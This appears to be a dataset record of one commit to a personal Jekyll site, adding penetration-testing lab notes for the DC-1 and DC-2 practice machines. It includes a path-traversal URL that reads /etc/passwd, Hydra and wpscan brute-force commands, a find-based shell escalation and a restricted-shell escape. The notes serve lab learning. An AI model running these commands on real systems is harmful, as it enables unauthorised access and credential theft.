

Before and after one commit to rajoul/rajoul.github.io, a Jekyll site: the page built from day_tool/daily_commande.md, in a window 1280 px wide and 900 px high, scrolled down 879 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1255 px from its top, so only the background shows below that.

Commit message:
Update daily_commande.md

````diff
--- a/day_tool/daily_commande.md
+++ b/day_tool/daily_commande.md
@@ -37,3 +37,19 @@
 https://10.0.4.13/?page=/../../../etc/passwd%00
 hydra -L users -P /usr/share/wordlists/rockyou.txt 10.0.4.13 ssh -V
 ```
+#### DC-1
+what I had learn from this machine is:
+```
+find / -exec /bin/sh \;
+```
+#### DC-2
+what I had learn from this machine is:
+```
+./wpscan --url http://dc-2/
+./wpscan --url http://dc-2/ --enumerate : enumerate users
+./wpscan --url http://dc-2/ --usernames file -w wordlist : brute force wp-login.php authenticity
+ssh -p- dc-2 : check all ports
+ssh -p 7744 tom@dc-2
+how to bypass rbash shell : vi,echo os.system('/bin/bash') => https://sushant747.gitbooks.io/total-oscp-guide/escaping_restricted_shell.html
+```
+this one is soo interesting: https://sushant747.gitbooks.io/total-oscp-guide/vim.html
````
